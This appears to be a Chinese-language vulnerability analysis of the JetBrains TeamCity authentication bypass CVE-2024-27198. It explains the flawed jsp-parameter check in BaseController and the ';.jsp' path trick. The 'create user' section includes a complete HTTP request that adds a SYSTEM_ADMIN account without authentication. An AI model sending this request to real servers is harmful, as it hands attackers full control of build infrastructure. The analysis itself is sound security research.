 - [JetBrains TeamCity 身份验证绕过漏洞(CVE-2024-27198)](#jetbrains-teamcity-身份验证绕过漏洞cve-2024-27198)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [漏洞原理](#漏洞原理)
    - [请求处理逻辑](#请求处理逻辑)
    - [认证绕过](#认证绕过)
    - [创建用户](#创建用户)
  - [漏洞补丁](#漏洞补丁)
  - [参考](#参考)

# JetBrains TeamCity 身份验证绕过漏洞(CVE-2024-27198)
## 影响版本
< 2023.11.4
## 环境搭建
https://download-cdn.jetbrains.com.cn/teamcity/TeamCity-2023.11.3.exe  
>DEBUG: 修改bin目录teamcity-server-internal.bat中
![](img/14-49-46.png)
## 漏洞原理
### 请求处理逻辑
JetBrains TeamCity使用SpringMVC框架,
漏洞位于`web-openapi.jar!\jetbrains\buildServer\controllers\BaseController.class`中,
这是一个抽象类,大部分的controller都继承于该抽象类,其中重新定义了Controller的处理请求的一些通用方法。  
首先就是自定义的`handleRequest`方法,这是springMVC Dispatcher将请求转发到controller时执行的第一个方法。  
![](img/15-42-27.png)  
其中首先就是检查当前Controller是否支持请求方式为OPTIONS,然后就会进入下面的`handleRequestInternal`方法。  
![](img/15-45-51.png)  
然后通过Controller的`doHandle`方法来处理当前请求,最后返回一个ModelAndView视图。  
可以看到当返回的视图不为空且不是重定向视图时就会进入`this.updateViewIfRequestHasJspParameter(request, modelAndView);`方法。其方法实现如下:  
![](img/15-48-13.png)  
首先会进行一个判断,即当前视图的视图名称不为空,且当前请求的ServletPath不是以.jsp结尾时,`isControllerRequestWithViewName`的值则为true,否则为false,即判断当前请求不是jsp请求而是mvc形式的请求。而从方法名也可以看出,该方法主要是当请求中含有jsp参数时会重新设置返回的视图。  
接下来则会从请求中尝试获取jsp参数的值。  
![](img/15-55-54.png)  
其中只要请求中的jsp参数值以`.jsp`结尾且不包含`admin/`就会直接返回该参数值,即认为当前请求是请求的jsp文件,这里也可以猜到除了admin路径的jsp文件,其它jsp文件应该是不需要认证的。  
然后就会将当前返回视图对象设置为得到的jsp参数值。
### 认证绕过
总结上面的整个逻辑,其像实现的逻辑其实就是当一个springMVC Controller的请求中如果携带jsp参数,则将请求重定向到对应的jsp文件中。 

逻辑漏洞位于对jsp参数请求的路径是否是jsp文件的判定上,应用简单的使用`endwith`方法来判断其请求的路径是否是jsp文件,然而这很容易使用经典的`;`符号绕过,对于`/a/b/c;.jsp`这样的路径其请求的真实路径其实是`/a/b/c`,但符合`endsWith(".jsp")`的判定。  

最后只需要找到一个不需要认证的controller进入这段逻辑即可,而应用中有一个PageNotFoundController则可以恰好利用,随意访问一个不存在的路径携带构造好的jsp参数即可触发漏洞。  
以请求/app/rest/server为例。 
![](img/16-16-55.png)   
构造构造`jsp=/app/rest/server;.jsp`,原本的404.jsp则会被替换为`/app/rest/server;.jsp`即`/app/rest/server`.  
![](img/16-15-28.png)  
![](img/16-16-20.png)
### 创建用户
作为实际利用时可以通过/app/rest/users接口来创建管理员
```http
POST /anyrequest?jsp=/app/rest/users;.jsp HTTP/1.1
Host: 192.168.18.35:8111
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: TCSESSIONID=57DD8A41C3D9CA88F59A63CE4CEC8FDB; __test=1
Connection: close
Content-Type: application/json
Content-Length: 131

{"username": "test", "password": "admin", "email": "test@gmail.com", "roles": {"role": [{"roleId": "SYSTEM_ADMIN", "scope": "g"}]}}
```
![](img/16-27-51.png)  
![](img/16-28-56.png)
## 漏洞补丁
更新后的版本中并没有对漏洞逻辑进行修改,增加了一些黑名单校验的东西(补丁都是混淆的),使用原来的poc会直接返回403 Access denied.
## 参考
https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/